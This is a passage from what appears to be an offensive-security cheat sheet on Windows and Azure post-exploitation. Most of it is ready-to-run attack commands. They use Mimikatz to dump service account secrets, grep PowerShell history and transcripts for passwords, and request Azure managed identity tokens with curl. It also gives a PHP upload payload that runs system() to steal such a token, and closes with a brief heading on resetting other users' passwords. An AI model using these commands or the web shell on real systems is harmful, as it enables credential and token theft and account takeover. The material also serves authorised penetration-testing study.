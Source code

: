 #### Dump service account passwords

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

#### Powershell History

```powershell
Get-Childitem -Path C:\Users\ -Force -Include ConsoleHost_history -Recurse -ErrorAction SilentlyContinue
cat <FILE> | select-string password
cat <FILE> | select-string secure
```

#### Transcript

```powershell
type C:\Transcripts\20210422\PowerShell_transcript.DESKTOP-M7C1AFM.6sZJrDuN.20210422230739.txt
```

## Managed Identity

### Todo for Managed Identity

#### Check for managed identity

* print environment variables and check for IDENTITY_HEADER and IDENTITY_ENDPOINT

```powershell
env
```

#### Request access token for managed identity

```powershell
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

#### Request access token for managed identity html file upload

```powershell
<?php 

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

## Reset password of other users

* Reset password if user has "authentication administrator" role on a group or administrative unit.
